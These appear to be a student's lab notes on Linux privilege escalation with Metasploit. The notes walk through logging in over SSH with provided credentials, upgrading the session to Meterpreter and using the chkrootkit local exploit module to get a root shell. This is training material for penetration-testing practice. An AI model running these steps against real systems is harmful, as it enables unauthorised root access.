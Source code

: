 * The privilege escalation techniques which can be utilized depends on:
    * Version of the Linux kernel
    * Distribution release version
 
* MSF offers very little to exploit Linux kernel
* However in some cases MSF modules can be useful

* PRACTICAL
* Repeat steps till db_nmap
* As the credentials are provided with this lab, we will exploit SSH service
* `use auxiliary/scanner/ssh/ssh_login`
* `set username [uname]`
* `set password [pword]`
* `run` -> Commmand shell
* `sessions -u [ID]` --> Meterpreter session

* **List all the processes**
* `ps aux`
* We will look for the processes that could be vulnerable
* Looking into "/bin/check-down"
* `cat /bin/check-down`
* As we can see it is linked to chkrootkit
* `chkrootkit --help`
* `chkrootkit -V`
* We will try to exploit chkrootkit:
* `search chkrootkit`
* `use exploit/unix/local/chkrootkit`
* When we cat chkrootkit file, we observed that it was stored in /bin folder:
* `set chkrootkit /bin/chkrootkit`
* `set session [Meterpreter ID]`
* `set lhost [Attacker's machine]`
* `run` --> Command shell as a root user on the target
